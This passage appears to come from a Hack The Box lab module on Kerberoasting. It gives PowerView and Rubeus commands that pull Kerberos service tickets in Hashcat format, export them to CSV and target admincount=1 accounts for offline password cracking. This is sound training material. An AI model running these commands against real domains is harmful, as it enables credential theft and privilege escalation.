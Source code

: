 #### Exporting All Tickets to a CSV File

  Exporting All Tickets to a CSV File

```powershell
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

#### Viewing the Contents of the .CSV File

  Viewing the Contents of the .CSV File

```powershell
PS C:\htb> cat .\ilfreight_tgs.csv
```


#### Using Rubeus

  Using Rubeus

```powershell
PS C:\htb> .\Rubeus.exe
```

- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

#### Viewing Rubeus's Capabilities
#### Using the /stats Flag

  Using the /stats Flag

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /stats
- statistics about target users. Domain, Path, kerberoastable, Supported Encryption Type

```


Let's use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat. Per the documentation, the ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function"; therefore, we won't have to worry about trimming white space or newlines before cracking with Hashcat.

#### Using the /nowrap Flag

  Using the /nowrap Flag

```powershell
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
